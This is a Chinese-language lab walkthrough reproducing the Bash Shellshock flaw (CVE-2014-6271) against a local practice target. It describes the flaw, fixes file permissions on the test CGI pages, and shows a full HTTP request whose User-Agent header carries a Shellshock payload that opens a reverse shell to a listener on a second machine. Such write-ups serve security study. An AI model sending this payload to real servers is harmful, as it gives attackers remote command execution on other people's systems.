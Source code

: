 # Bash Shellshock 破壳漏洞

> 漏洞说明

Shellshock 漏洞 ([CVE-2014-6271](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)) 是 Linux 上 Bash 中的一个严重漏洞。

根据[RedHat](https://access.redhat.com/security/cve/CVE-2014-6271)的说法，“在 Bash（又名 bourne-again shell）评估某些特制环境变量的方式中发现了一个缺陷。攻击者可以利用此漏洞覆盖或绕过环境限制来执行 shell 命令。某些服务和应用程序允许未经身份验证的远程攻击者提供环境变量，从而允许他们利用此问题。”



> 前提条件

版本：bash <= 4.3



> 利用工具



> 漏洞复现

服务启动后，有两个页面http://192.168.40.77:8080/victim.cgi和http://192.168.40.77:8080/safe.cgi。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

访问http://192.168.40.77:8080/victim.cgi

![image-20221218173246188](../img/Bash_CVE-2014-6271/image-20221218173246188.png)

查看日志可知由于靶场所给权限不足

![image-20221218173503613](../img/Bash_CVE-2014-6271/image-20221218173503613.png)

将victim.cgi和safe.cgi赋予755权限

![image-20221218173655597](../img/Bash_CVE-2014-6271/image-20221218173655597.png)

此时可以正常访问

![image-20221218173709570](../img/Bash_CVE-2014-6271/image-20221218173709570.png)

本地开启监听

![image-20221218171920243](../img/Bash_CVE-2014-6271/image-20221218171920243.png)

访问http://192.168.40.77:8080/victim.cgi抓包，修改请求包发送

```http
GET http://192.168.40.77:8080/victim.cgi HTTP/1.1
Host: 192.168.40.77:8080
accept: */*
User-Agent:() { :; }; /bin/bash -i >& /dev/tcp/192.168.40.1/1234 0>&1;
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

成功getshell

![image-20221218174001145](../img/Bash_CVE-2014-6271/image-20221218174001145.png)